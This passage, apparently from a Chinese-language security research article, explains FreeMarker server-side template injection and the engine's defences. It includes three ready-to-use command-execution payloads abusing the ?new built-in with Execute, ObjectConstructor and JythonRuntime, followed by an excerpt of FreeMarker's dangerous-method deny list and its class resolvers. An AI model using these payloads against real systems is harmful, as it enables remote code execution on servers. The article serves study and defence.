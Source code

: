 ```
  $`{`byte`}`, &lt;/#list&gt;]
```
<li>
**new 内建函数的利用**主要是寻找实现了 `TemplateModel` 接口的可利用类来进行实例化。`freemarker.template.utility`包中存在三个符合条件的类，分别为`Execute`类、`ObjectConstructor`类、`JythonRuntime`类。</li>
```
&lt;#assign value="freemarker.template.utility.Execute"?new()&gt;$`{`value("calc.exe")`}`
  &lt;#assign value="freemarker.template.utility.ObjectConstructor"?new()&gt;$`{`value("java.lang.ProcessBuilder","calc.exe").start()`}`
  &lt;#assign value="freemarker.template.utility.JythonRuntime"?new()&gt;&lt;@value&gt;import os;os.system("calc.exe")&lt;/@value&gt;//@value为自定义标签
```

当然对于这两种方式的利用，FreeMarker 也做了相应的安全措施。针对`api`的利用方式，设置配置项`api_builtin_enabled`的默认值为`false`。同时为了防御通过其他方式调用恶意方法，FreeMarker内置了一份危险方法名单`unsafeMethods.properties`[3]，诸如`getClassLoader`、`newInstance`等危险方法都被禁用了，下面列出一小部分，其余请自行查阅文件。

```
//unsafeMethods.properties
java.lang.Object.wait()
java.lang.Object.wait(long)
java.lang.Object.wait(long,int)
java.lang.Object.notify()
java.lang.Object.notifyAll()

java.lang.Class.getClassLoader()
java.lang.Class.newInstance()
java.lang.Class.forName(java.lang.String)
java.lang.Class.forName(java.lang.String,boolean,java.lang.ClassLoader)

java.lang.reflect.Constructor.newInstance([Ljava.lang.Object;)
...
more
```

针对`new`的利用方式，上文已提到过官方提供的一种限制方式——使用 `Configuration.setNewBuiltinClassResolver(TemplateClassResolver)` 或设置 `new_builtin_class_resolver` 来限制这个内建函数对类的访问。此处官方提供了三个预定义的解析器：
<li>
**UNRESTRICTED_RESOLVER**：简单地调用`ClassUtil.forName(String)`。</li>
<li>
**SAFER_RESOLVER**：和第一个类似，但禁止解析`ObjectConstructor`，`Execute`和`freemarker.template.utility.JythonRuntime`。</li>
<li>
**ALLOWS_NOTHING_RESOLVER**：禁止解析任何类。</li>
当然用户自身也可以自定义解析器以拓展对危险类的限制，只需要实现`TemplateClassResolver`接口就好了，接下来会介绍到的 Liferay 就是通过其自定义的解析器`LiferayTemplateClassResolver`去构建 FreeMarker 的模板沙箱。

## Liferay FreeMarker模板引擎SSTI漏洞踩坑历程

### <a class="reference-link" name="%E7%A2%B0%E5%87%BA%E4%B8%80%E6%89%87%E7%AA%97"></a>碰出一扇窗
